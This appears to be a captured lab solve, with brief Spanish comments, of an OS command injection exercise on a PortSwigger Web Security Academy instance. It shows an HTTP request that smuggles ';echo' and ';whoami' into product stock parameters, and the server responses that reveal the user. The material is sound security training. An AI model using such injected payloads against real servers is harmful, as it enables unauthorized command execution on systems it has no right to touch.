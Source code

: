 ```python




RESPONSE SE TENZO:


HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 9

P4IM0N 1








REQUEST CONTODA LA INFO DEL SERVIDOR:




POST /product/stock HTTP/2
Host: 0a44009d04476521832ac97500f6006a.web-security-academy.net
Cookie: session=FQNrB0YT17TwxZmkQudFdRcKPfcMaqqb
Content-Length: 38
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Platform: "Linux"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: https://0a44009d04476521832ac97500f6006a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a44009d04476521832ac97500f6006a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

productId=;echo P4IM0N&storeId=;whoami





RESPONSE BINGO TENEMOS EL USUARIO:



HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

P4IM0N
peter-0T0L0D

```